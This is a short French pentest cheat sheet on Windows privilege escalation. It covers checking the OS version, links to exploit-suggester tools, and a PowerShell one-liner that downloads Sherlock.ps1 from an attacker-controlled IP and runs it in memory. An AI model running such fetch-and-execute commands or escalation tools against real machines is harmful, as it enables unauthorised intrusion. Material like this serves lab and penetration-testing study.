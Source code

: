 ```yaml
---
public: true
---
```

## Version de Windows

```shell
# Si on souhaite les informations du système d'exploitation uniquement on pourra utiliser cette commande
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

On trouvera sur ce site la version exacte de Windows en fonction de la version du noyau remonté par les commandes suivantes

[Liste des Versions Windows](https://en.wikipedia.org/wiki/Windows_10_version_history)

## Escalade de privilèges

Selon la version du système d'exploitation, on pourra utiliser un des outils suivants pour trouver des exploits qui pourraient fonctionner sur la machine cible :

- Avant Windows Server 2016 : <https://github.com/rasta-mouse/Sherlock>
- Windows Server 2016 et supérieur : <https://github.com/rasta-mouse/Watson>

On peut aussi tenter <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### Sherlock (versions anciennes de windows)

** Remarque** : Sherlock affiche une liste de vulnérabilité avec un `VulnStatus` qui peut avoir la valeur `Not Vulnerable`. J'ai pu constater que même si il était marqué `Not Vulnerable`, certains exploits fonctionnent tout de même.... Cela peut donc être intéressant de tenter même d'autres exploits qui sont marqués 

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://10.10.15.96/Sherlock.ps1'))
Import-Module .\Sherlock.ps1
Find-AllVulns
```
